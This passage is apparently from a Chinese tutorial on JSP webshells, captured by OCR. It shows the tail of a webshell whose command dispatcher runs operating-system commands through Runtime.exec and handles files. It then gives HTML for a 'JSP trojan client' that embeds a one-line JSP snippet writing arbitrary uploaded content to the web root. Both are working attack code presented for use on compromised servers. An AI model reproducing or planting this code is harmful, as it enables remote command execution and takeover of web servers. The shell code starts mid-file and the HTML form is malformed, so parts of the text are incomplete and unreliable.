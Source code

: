 ```
            sb.append("1");
        } else if (Z.equals("E")) {
            EE(z1);
            sb.append("1");
        } else if (Z.equals("F")) {
            FF(z1, response);
        } else if (Z.equals("G")) {
            GG(z1, z2);
            sb.append("1");
        } else if (Z.equals("H")) {
            HH(z1, z2);
            sb.append("1");
        } else if (Z.equals("I")) {
            II(z1, z2);
            sb.append("1");
        } else if (Z.equals("J")) {
            JJ(z1);
            sb.append("1");
        } else if (Z.equals("K")) {
            KK(z1, z2);
            sb.append("1");
        } else if (Z.equals("L")) {
            LL(z1, z2);
            sb.append("1");
        } else if (Z.equals("M")) {
            String[] c = { z1.substring(2), z1.substring(0, 2), z2 };
            Process p = Runtime.getRuntime().exec(c);
            MM(p.getInputStream(), sb);
            MM(p.getErrorStream(), sb);
        } else if (Z.equals("N")) {
            NN(z1, sb);
        } else if (Z.equals("O")) {
            OO(z1, sb);
        } else if (Z.equals("P")) {
            PP(z1, sb);
        } else if (Z.equals("Q")) {
            QQ(cs, z1, z2, sb);
        }
    } catch (Exception e) {
        sb.append("ERROR" + ":// " + e.toString());
    }
    sb.append("|" + "<-");
    out.print(sb.toString());
%>
```

然后将下面的代码保存为 .html 格式的，直接双击本地打开。这是作为客户端去连接我们刚刚上传的 one.jsp 的

```
<html><head><title>JSP一句话木马客户端</title></head><div align=center>  <font color=red>专用JSP木马连接器</font><br><form name=get method=post>服务端地址<input name=url size=110 type=text>  <br><br><textarea name=t rows=20 cols=120>你要提交到服务器的代码</textarea><br>要保存成的文件名：<input  value=提交> </form>  <br>服务端代码：<br><textarea rows=5 cols=120><%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>   </textarea>  </div></body>
```
